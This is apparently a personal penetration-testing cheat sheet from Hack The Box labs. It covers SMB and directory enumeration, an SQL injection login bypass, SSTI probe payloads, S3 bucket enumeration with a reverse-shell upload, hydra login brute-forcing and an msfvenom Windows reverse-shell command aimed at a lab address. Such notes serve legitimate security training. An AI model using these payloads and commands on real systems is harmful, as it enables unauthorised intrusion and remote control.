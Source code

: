 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 4
---
```


# enumeartion

## smb

```
smbclient -L 10.129.189.194
```

## web

### gobuster

```
# enumeration directories
gobuster dir -u http://DOMAIN -w /usr/share/wordlists/dirb/common.txt

# enumerate vhosts
gobuster vhost --append-domain -u http://DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### wappalyzer

- used to identify website technologies
- install as browser extension via chrome web store

### sqli

login bypass
```
' or 1=1 #
```

### ssti

> great writeup on [fingerprinting languages and template engines](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756) 

1. fingerprint language used on server (i.e. python, php, js, nodejs, etc) 
2. find input field to test
3. using identified language as a guide, narrow down the payloads to try

#### payloads

characters to test
```
${{<%[%'"}}%\.
```
common payloads to test
```
${7*7}
${{7*7}}
#{7*7}
#{ 7 * 7 }
*{7*7}
@{7*7}
~{7*7}
[[7*7]]
[[${7*7}]]
[(7*7)]
{7'*7'}
<%= 7 * 7 %>
<%7*7%>
```

[hacktricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) has a good bit of info on other payloads and their corresponding template engines too

## cloud

### aws

#### setup

use python to create virtual environment and install `awscli`
```
$ python3 -m venv htb_three

$ source htb_three/bin/activate

$ pip3 install awscli                 
Collecting awscli
```

#### enumeration

```
# anonymous login
aws s3 ls --endpoint-url http://s3.thetoppers.htb                                   
aws s3 ls s3://s3.thetoppers.htb --no-sign-request

# configure a profile (have to enter fake or real values - i.e. no empties)
aws configure --profile htb_three

# list bucket
aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb

# list contents recursively
aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb --recursive s3://thetoppers.htb

# copy contents
aws s3 cp --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/shell.php .

# delete contents
aws s3 rm --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/php-reverse-shell.php
```

# multipurpose tools

## hydra

- web form with username and password list

```
hydra -l [username] -P [path_to_passwd_list] -t 10 http-post-form [domain] "/URI:username=^USER^&password=^PASSWORD^:Cookie="
```

# c2

## metasploit

### generate payloads

- staged vs. not: shell/reverse_tcp vs. shell_reverse

#### windows

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.189 LPORT=42069 -f exe -a x64 -o ./rev_shell.exe
```